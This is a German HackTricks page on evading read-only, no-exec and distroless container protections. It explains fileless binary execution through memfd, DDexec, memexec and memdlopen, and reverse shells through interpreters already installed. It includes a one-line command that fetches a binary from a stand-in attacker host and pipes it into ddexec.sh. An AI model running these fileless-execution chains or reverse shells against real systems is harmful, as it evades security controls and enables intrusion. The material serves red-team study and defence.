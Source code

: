# Umgehung von FS-Schutzmaßnahmen: Nur-Lesen / Kein-Exec / Distroless

<details>

<summary><strong>Erlernen Sie AWS-Hacking von Grund auf mit</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Andere Möglichkeiten, HackTricks zu unterstützen:

* Wenn Sie Ihr **Unternehmen in HackTricks beworben sehen möchten** oder **HackTricks als PDF herunterladen möchten**, überprüfen Sie die [**ABONNEMENTPLÄNE**](https://github.com/sponsors/carlospolop)!
* Holen Sie sich das [**offizielle PEASS & HackTricks-Merchandise**](https://peass.creator-spring.com)
* Entdecken Sie [**The PEASS Family**](https://opensea.io/collection/the-peass-family), unsere Sammlung exklusiver [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Ihre Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repositories einreichen.

</details>

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Wenn Sie an einer **Hackerkarriere** interessiert sind und das Unhackbare hacken möchten - **wir stellen ein!** (_fließendes Polnisch in Wort und Schrift erforderlich_).

{% embed url="https://www.stmcyber.com/careers" %}

## Videos

In den folgenden Videos finden Sie die auf dieser Seite erwähnten Techniken ausführlicher erläutert:

* [**DEF CON 31 - Erforschung der Linux-Speicher-Manipulation für Stealth und Evasion**](https://www.youtube.com/watch?v=poHirez8jk4)
* [**Stealth-Eindringungen mit DDexec-ng & in-memory dlopen() - HackTricks Track 2023**](https://www.youtube.com/watch?v=VM\_gjjiARaU)

## Nur-Lesen / Kein-Exec-Szenario

Es wird immer häufiger, dass Linux-Maschinen mit **Schutzmaßnahmen für eine schreibgeschützte (ro) Dateisystem** montiert sind, insbesondere in Containern. Dies liegt daran, dass das Ausführen eines Containers mit einem ro-Dateisystem so einfach ist wie das Festlegen von **`readOnlyRootFilesystem: true`** im `securitycontext`:

<pre class="language-yaml"><code class="lang-yaml">apiVersion: v1
kind: Pod
metadata:
name: alpine-pod
spec:
containers:
- name: alpine
image: alpine
securityContext:
<strong>      readOnlyRootFilesystem: true
</strong>    command: ["sh", "-c", "while true; do sleep 1000; done"]
</code></pre>

Auch wenn das Dateisystem als ro eingebunden ist, wird **`/dev/shm`** weiterhin beschreibbar sein, sodass wir nichts auf die Festplatte schreiben können. Dieser Ordner wird jedoch mit **Kein-Exec-Schutz** eingebunden, sodass Sie, wenn Sie hier eine Binärdatei herunterladen, diese **nicht ausführen können**.

{% hint style="warning" %}
Aus der Sicht eines Red Teams wird es dadurch **kompliziert, Binärdateien herunterzuladen und auszuführen**, die nicht bereits im System vorhanden sind (wie Backdoors oder Enumeratoren wie `kubectl`).
{% endhint %}

## Einfachste Umgehung: Skripte

Beachten Sie, dass ich von Binärdateien gesprochen habe, Sie können **jedes Skript ausführen**, solange der Interpreter innerhalb der Maschine vorhanden ist, wie ein **Shell-Skript**, wenn `sh` vorhanden ist, oder ein **Python-Skript**, wenn `python` installiert ist.

Dies reicht jedoch nicht aus, um Ihre Binärdatei-Backdoor oder andere Binärwerkzeuge auszuführen, die Sie möglicherweise ausführen müssen.

## Speicherumgehungen

Wenn Sie eine Binärdatei ausführen möchten, das Dateisystem dies jedoch nicht zulässt, ist der beste Weg, dies zu tun, indem Sie es aus dem Speicher ausführen, da die **Schutzmaßnahmen dort nicht gelten**.

### FD + exec-Systemaufruf-Umgehung

Wenn Sie leistungsstarke Skript-Engines innerhalb der Maschine haben, wie **Python**, **Perl** oder **Ruby**, könnten Sie die Binärdatei zum Ausführen aus dem Speicher herunterladen, in einem Speicherdateideskriptor speichern (`create_memfd`-Systemaufruf), der nicht durch diese Schutzmaßnahmen geschützt wird, und dann einen **`exec`-Systemaufruf** aufrufen, wobei der **fd als auszuführende Datei** angegeben wird.

Hierfür können Sie das Projekt [**fileless-elf-exec**](https://github.com/nnsee/fileless-elf-exec) verwenden. Sie können ihm eine Binärdatei übergeben, und es wird ein Skript in der angegebenen Sprache mit der **Binärdatei komprimiert und b64-codiert** generieren, mit den Anweisungen zum **Dekodieren und Dekomprimieren** in einem durch `create_memfd`-Systemaufruf erstellten **fd** und einem Aufruf des **exec**-Systemaufrufs zum Ausführen.

{% hint style="warning" %}
Dies funktioniert nicht in anderen Skriptsprachen wie PHP oder Node, da sie keine **Standardmethode zum Aufrufen von Rohsystemaufrufen** aus einem Skript haben. Daher ist es nicht möglich, `create_memfd` aufzurufen, um den **Speicherfd** zum Speichern der Binärdatei zu erstellen.

Darüber hinaus wird das Erstellen eines **regulären fd** mit einer Datei in `/dev/shm` nicht funktionieren, da Sie es nicht ausführen dürfen, da der **Kein-Exec-Schutz** angewendet wird.
{% endhint %}

### DDexec / EverythingExec

[**DDexec / EverythingExec**](https://github.com/arget13/DDexec) ist eine Technik, die es Ihnen ermöglicht, den **Speicher Ihres eigenen Prozesses zu modifizieren**, indem Sie seinen **`/proc/self/mem`** überschreiben.

Daher können Sie, indem Sie den vom Prozess ausgeführten Assemblercode kontrollieren, ein **Shellcode** schreiben und den Prozess "mutieren", um **beliebigen Code auszuführen**.

{% hint style="success" %}
**DDexec / EverythingExec** ermöglicht es Ihnen, Ihren eigenen **Shellcode** oder **beliebige Binärdateien** aus dem **Speicher zu laden und auszuführen**.
{% endhint %}
```bash
# Basic example
wget -O- https://attacker.com/binary.elf | base64 -w0 | bash ddexec.sh argv0 foo bar
```
### MemExec

[**Memexec**](https://github.com/arget13/memexec) ist der natürliche nächste Schritt von DDexec. Es handelt sich um einen **DDexec-Shellcode-Dämon**, sodass Sie jedes Mal, wenn Sie **eine andere Binärdatei ausführen möchten**, nicht DDexec neu starten müssen. Sie können einfach den Memexec-Shellcode über die DDexec-Technik ausführen und dann **mit diesem Dämon kommunizieren, um neue Binärdateien zu übergeben, zu laden und auszuführen**.

Ein Beispiel, wie Sie **memexec verwenden können, um Binärdateien von einer PHP-Reverse-Shell auszuführen**, finden Sie unter [https://github.com/arget13/memexec/blob/main/a.php](https://github.com/arget13/memexec/blob/main/a.php).

### Memdlopen

Mit einem ähnlichen Zweck wie DDexec ermöglicht die **memdlopen**-Technik eine **einfachere Möglichkeit, Binärdateien im Speicher zu laden**, um sie später auszuführen. Es könnte sogar ermöglichen, Binärdateien mit Abhängigkeiten zu laden.

## Distroless Bypass

### Was ist Distroless

Distroless-Container enthalten nur die **absolut notwendigen Komponenten, um eine bestimmte Anwendung oder einen bestimmten Dienst auszuführen**, wie Bibliotheken und Laufzeitabhängigkeiten, aber schließen größere Komponenten wie einen Paketmanager, eine Shell oder Systemdienstprogramme aus.

Das Ziel von Distroless-Containern ist es, die Angriffsfläche von Containern zu **verringern, indem unnötige Komponenten eliminiert** und die Anzahl der ausnutzbaren Schwachstellen minimiert werden.

### Reverse-Shell

In einem Distroless-Container finden Sie möglicherweise **nicht einmal `sh` oder `bash**`, um eine normale Shell zu erhalten. Sie finden auch keine Binärdateien wie `ls`, `whoami`, `id`... alles, was Sie normalerweise in einem System ausführen.

{% hint style="warning" %}
Daher werden Sie **keine** **Reverse-Shell** erhalten oder das System **wie gewohnt aufzählen können**.
{% endhint %}

Wenn jedoch der kompromittierte Container beispielsweise ein Flask-Web ausführt, ist Python installiert, und daher können Sie eine **Python-Reverse-Shell** erhalten. Wenn Node ausgeführt wird, können Sie eine Node-Rev-Shell erhalten, und dasselbe gilt für fast jede **Skriptsprache**.

{% hint style="success" %}
Mit der Skriptsprache könnten Sie das System **anhand der Sprachfunktionen aufzählen**.
{% endhint %}

Wenn **keine `read-only/no-exec`**-Schutzmaßnahmen vorhanden sind, könnten Sie Ihre Reverse-Shell missbrauchen, um Ihre Binärdateien im Dateisystem zu **schreiben** und **auszuführen**.

{% hint style="success" %}
In diesen Containern werden diese Schutzmaßnahmen jedoch normalerweise vorhanden sein, aber Sie könnten die **vorherigen Speicherausführungstechniken verwenden, um sie zu umgehen**.
{% endhint %}

Sie finden **Beispiele**, wie Sie **einige RCE-Schwachstellen ausnutzen**, um Skriptsprachen **Reverse-Shells zu erhalten** und Binärdateien aus dem Speicher auszuführen, unter [**https://github.com/carlospolop/DistrolessRCE**](https://github.com/carlospolop/DistrolessRCE).
